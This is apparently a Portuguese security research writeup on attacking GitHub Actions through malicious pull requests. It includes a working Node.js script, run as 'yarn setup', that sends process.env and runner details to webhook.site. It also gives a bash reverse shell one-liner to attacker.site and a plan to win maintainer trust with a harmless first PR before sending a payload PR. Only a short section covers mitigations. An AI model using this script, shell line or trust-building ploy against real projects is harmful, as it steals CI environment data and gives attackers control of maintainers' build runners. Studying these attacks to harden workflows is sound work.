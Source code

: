 # Pesquisa de Segurança: Abusos em GitHub Actions via Pull Request Malicioso

## Objetivo

Investigar e documentar formas de explorar workflows inseguros no GitHub Actions a partir de Pull Requests maliciosos, visando:

- Exfiltrar informações sensíveis
- Obter shell reverso em runners
- Abusar de workflows reutilizáveis (reusable workflows)
- Simular cenários realistas de ameaças para subsidiar mitigações

---

## 1. Cenário Inicial

### Exemplo de Workflow Inseguro

```yaml
on:
  push:
    branches: [main]
  pull_request:
    paths:
      - "packages/**"

jobs:
  ci:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - run: yarn setup
```

### Problemas identificados

- Executa código arbitrário definido pelo PR
- `yarn setup` pode conter scripts maliciosos (ex: exfiltração)
- Ausência de `permissions:` definidos (usa padrão permissivo)
- Ações inseguras em PRs de forks com código controlado pelo atacante

---

## 2. Possíveis Vetores de Exfiltração

### ✅ Acessíveis via Payload

- `process.env`: variáveis de ambiente (ex: `GITHUB_REPOSITORY`, `RUNNER_OS`)
- Informações do sistema: `cwd`, `uptime`, `memoryUsage`, etc.
- Arquivos temporários (`/tmp`, `.env`, `.cache`)
- Resolução DNS (`/etc/resolv.conf`)
- Logs e artefatos

### ❌ Inacessíveis por padrão

- `secrets.*`: não disponíveis em PRs de forks
- `vars.*`: só disponíveis se usados no workflow YAML
- `GITHUB_TOKEN`: revogado em forks
- `core.getInput()`: exige `with:` no workflow
- `core.getIDToken()`: requer `permissions: id-token: write`

---

## 3. Payload de Exfiltração no `yarn setup`

### package.json

```json
"scripts": {
  "setup": "node scripts/malicioso.js"
}
```

### scripts/malicioso.js

```js
const https = require('https');

const data = {
  env: process.env,
  runner: {
    platform: process.platform,
    arch: process.arch,
    cwd: process.cwd(),
    uptime: process.uptime(),
    memory: process.memoryUsage(),
    versions: process.versions,
  }
};

const body = JSON.stringify(data);

const req = https.request({
  hostname: 'webhook.site',
  path: '/teste',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': body.length
  }
}, (res) => {
  console.log(`STATUS: ${res.statusCode}`);
});

req.on('error', (error) => {
  console.error('Erro ao enviar payload:', error);
});

req.write(body);
req.end();
```

---

## 4. Bypass de Proteção para PRs de Primeira Contribuição

### Como o GitHub se comporta

- Em PRs de forks de usuários novos, o GitHub **não executa workflows automaticamente**
- Exige aprovação manual por mantenedor via botão **“Approve and run workflows”**

### Estratégia do atacante

1. Criar perfil no GitHub com aparência legítima
2. Fazer um primeiro PR inofensivo (ex: correção de typo)
3. Após aprovação, fazer um segundo PR com payload
4. Workflow é executado automaticamente com contexto malicioso

---

## 5. Shell Reverso no Runner

### Payload comum

```bash
bash -i >& /dev/tcp/attacker.site/4444 0>&1
```

### Possibilidades no shell

- Listar variáveis e arquivos (`env`, `ls`, `cat`)
- Escanear rede interna (`ip addr`, `curl`)
- Explorar arquivos do runner (`/tmp`, `/home/runner`)
- Persistência e lateral movement (em self-hosted mal configurado)

---

## 6. Abuso de Reusable Workflows

### Problemas

- Workflows reutilizáveis públicos podem ser chamados por qualquer repositório
- Podem vazar outputs, segredos e rodar em ambientes sensíveis
- Falta de validação do `caller` permite uso malicioso externo

### Mitigações recomendadas

- Validar `github.repository` no reusable
- Definir `permissions: {}` por padrão
- Não usar `secrets` ou `env` sem checagem de escopo
- Proteger com ambientes (`environment`) e revisão manual se necessário

---

## 7. Fluxograma de Exploração

```mermaid
flowchart TD
  A[Início] --> B[Fazer Fork do Repositório Vulnerável]
  B --> C[Alterar package.json / yarn setup]
  C --> D[Adicionar payload de exfiltração ou shell reverso]
  D --> E[Abrir Pull Request]

  E --> F{Primeira Contribuição?}
  F -- Sim --> G[Workflow não roda automaticamente]
  G --> H[Fazer PR inofensivo /README, typo/]
  H --> I[Aguardar aprovação do PR]
  I --> J[Fazer novo PR com payload]
  F -- Não --> J

  J --> K[Workflow executa código do PR]
  K --> L{Tipo de Exploração}

  L -- Exfiltração --> M1[Capturar process.env]
  L -- Exfiltração --> M2[Obter dados de sistema /uptime, cwd, runner/]
  L -- Exfiltração --> M3[Enviar para webhook.site]

  L -- Shell reverso --> N1[Payload: bash -i >& /dev/tcp/...]
  N1 --> N2[Obter shell remoto no runner]
  N2 --> N3[Listar arquivos temporários]
  N2 --> N4[Escanear rede interna]
  N2 --> N5[Escalar privilégios /caso self-hosted/]
  N2 --> N6[Persistência / backdoor]

  L -- Reusable workflow --> O1[Chamar workflow externo]
  O1 --> O2[Reaproveitar secrets indevidamente expostos]
  O1 --> O3[Obter outputs sensíveis]
  O1 --> O4[Rodar em runners privilegiados]

  M3 --> Q
  N6 --> P1[Salvar via artifacts ou logs]
  O4 --> P1

  P1 --> Q[Fim: Dados exfiltrados com sucesso]
```

---

## Referências

- [GitHub Docs – Reusable Workflows](https://docs.github.com/en/actions/using-workflows/reusing-workflows)
- [GitHub Security Hardening](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OIDC Token Leak - Rhys Arkins](https://rhysd.hashnode.dev/github-actions-oidc-token-leak)
- [Project Discovery CVE and GitHub Actions Research](https://blog.projectdiscovery.io/github-actions-vulnerabilities-research)
